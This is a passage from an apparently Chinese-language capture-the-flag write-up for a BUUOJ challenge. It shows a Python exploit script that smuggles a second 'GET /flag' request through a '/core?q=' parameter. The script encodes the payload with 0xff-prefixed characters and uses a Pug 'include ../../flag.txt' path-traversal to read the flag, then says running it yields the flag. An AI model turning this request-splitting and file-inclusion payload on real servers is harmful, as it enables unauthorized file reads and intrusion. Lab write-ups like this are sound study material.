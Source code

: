 ```
    style
      include ../../../../../../../flag.txt
------WebKitFormBoundaryO9LPoNAg9lWRUItA--
'''
more='''

GET /flag HTTP/1.1
Host: x
Connection: close
x:'''

//`Host: x` 中的 `x` 只是一个占位符，实际应该被替换为目标服务器的域名或 IP 地址，用来指明请求的目标主机。

payload = payload.format(len(body)+10,body)+more
payload = payload.replace("\n", "\r\n")
payload = ''.join(chr(int('0xff' + hex(ord(c))[2:].zfill(2), 16)) for c in payload)
print(payload)


session = requests.Session()
session.trust_env = False
session.get('http://7f25cffa-eee3-46c0-8d88-627085f1cef8.node5.buuoj.cn:81/core?q=' + urllib.parse.quote(payload))
response = session.get('http://7f25cffa-eee3-46c0-8d88-627085f1cef8.node5.buuoj.cn:81/?action=lmonstergg')
print(response.text)
```

运行，得到flag

![image-20241011214055584](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410112140624.png)
